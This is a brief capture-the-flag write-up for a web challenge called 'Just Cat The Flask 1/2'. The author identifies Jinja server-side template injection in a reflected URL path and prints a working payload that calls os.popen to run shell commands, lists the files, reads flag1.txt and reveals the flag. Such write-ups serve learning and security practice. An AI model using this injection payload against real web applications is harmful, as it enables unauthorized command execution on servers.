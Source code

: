 # Just Cat The Flask 1/2
> https://bluehens-cat-the-flask.chals.io/greeting/hi

## About the Challenge
We were given a website without the source code, every input after `/greeting/*` is reflected in the website


[Image extracted text: Hello hi?]


## How to Solve?
The website was vulnerable to SSTI and this website uses Jinja as its templating engine. Here is the payload I used to execute OS command:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{lipsum.__globals__.os.popen('ls').read()}}
```


[Image extracted text: Hi chall.py flagl.txt requirements.txt sum_suckers_creds !]


There is a file called `flag1.txt`, read that to obtain the flag


[Image extracted text: Welcome UDCTF{I4y3r_L_cOmpl3t3_g00d_luck_wlth_pArt_2} !]


```
UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}
```